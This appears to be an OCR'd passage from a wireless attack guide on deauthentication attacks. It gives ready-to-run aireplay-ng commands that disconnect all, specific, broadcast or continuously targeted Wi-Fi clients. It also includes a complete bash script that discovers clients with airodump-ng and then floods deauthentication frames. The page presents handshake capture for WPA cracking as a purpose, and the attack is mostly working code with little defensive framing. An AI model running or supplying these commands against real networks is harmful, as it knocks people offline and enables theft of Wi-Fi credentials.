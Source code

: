 
## Attack Methods

### Deauthentication Attacks

Deauthentication attacks force clients to disconnect from networks, useful for capturing WPA handshakes or testing network resilience.

#### Basic Deauth Attacks

```bash
# Deauth all clients from a network
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Deauth specific client
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon

# Continuous deauth (until Ctrl+C)
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Broadcast deauth (affects all nearby clients)
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```

#### Targeted Deauth Script

```bash
#!/bin/bash
# targeted-deauth.sh - Smart deauthentication

TARGET_BSSID="$1"
TARGET_CHANNEL="$2"
INTERFACE="wlan0mon"

if [[ -z "$TARGET_BSSID" || -z "$TARGET_CHANNEL" ]]; then
    echo "Usage: $0 <BSSID> <CHANNEL>"
    exit 1
fi

echo "[*] Setting channel to $TARGET_CHANNEL"
iwconfig "$INTERFACE" channel "$TARGET_CHANNEL"

echo "[*] Discovering clients for $TARGET_BSSID"
timeout 30 airodump-ng -c "$TARGET_CHANNEL" --bssid "$TARGET_BSSID" "$INTERFACE" &
SCAN_PID=$!

sleep 30
kill $SCAN_PID 2>/dev/null

echo "[*] Starting targeted deauthentication"
aireplay-ng -0 20 -a "$TARGET_BSSID" "$INTERFACE"
```
